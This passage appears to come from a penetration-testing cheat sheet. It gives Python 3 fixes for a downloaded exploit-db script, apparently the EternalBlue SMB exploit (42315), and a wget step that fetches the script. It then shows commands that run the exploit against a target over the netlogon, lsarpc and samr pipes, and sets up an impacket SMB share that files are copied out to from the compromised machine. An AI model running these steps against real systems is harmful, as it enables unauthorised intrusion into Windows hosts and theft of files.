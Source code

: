     Line.231
    # req = str(pkt)
    req = pkt.getData()
    return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553

    Line.381
    # data += resp['Data'][1:]
    data += resp['Data'][1:].decode()
    ```

3. **Download exploit.py**

    ```sh
    wget -O exploit.py https://www.exploit-db.com/exploits/42315

    # Convert DOS to UNIX
    dos2unix exploit.py
    ```

4. **Edit the Credentials in exploit.py**

    ```sh

    ...
    username = "username"
    password = "password"
    ...

    ```

5. **Run the script**

    ```sh
    python exploit.py <target-ip> netlogon
    python exploit.py <target-ip> lsarpc
    python exploit.py <target-ip> samr
    ```

<br />

## Launch SMB Server

```bash
impacket-smbserver share . -smb2support -username user -password pass
```

### Access from Remote Machine

```bash
net use \\<local-ip>\share /u:user pass
```

### Transfer Files

```bash
# Remote to Local
cp .\example.txt \\<local-ip>\share\example.txt
```
